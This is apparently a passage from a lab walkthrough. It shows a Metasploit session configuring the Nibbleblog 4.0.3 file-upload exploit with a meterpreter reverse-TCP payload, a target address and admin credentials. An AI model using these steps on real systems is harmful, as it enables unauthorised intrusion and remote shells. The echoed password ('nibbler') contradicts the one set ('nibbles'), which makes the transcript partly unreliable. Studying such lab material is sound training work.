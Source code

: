```
Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.40.135   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3



View the full module info with the info, or info -d command.

```

**Setting Options**
```
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbler
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.129.155.196
RHOSTS => 10.129.155.196
msf6 exploit(multi/http/nibbleblog_file_upload) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI nibbleblog
TARGETURI => nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > 
```
